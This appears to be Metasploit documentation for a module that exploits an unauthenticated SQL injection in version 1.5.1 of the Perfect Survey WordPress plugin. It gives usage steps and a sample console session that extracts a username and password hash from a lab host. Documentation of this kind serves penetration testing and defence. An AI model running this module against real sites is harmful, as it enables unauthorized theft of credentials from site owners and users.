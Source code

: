 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Start `msfconsole`.
3. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
4. Set the target host: `set RHOSTS [ip]`.
5. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
6. Execute the module: `run`.
7. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails.
Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```plaintext
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: aaryan
[+] Extracted Password Hash: $P$BroxbUQTM0N32U7JeMmkXPJrxN9ErZ1
[*] Auxiliary module execution completed
```
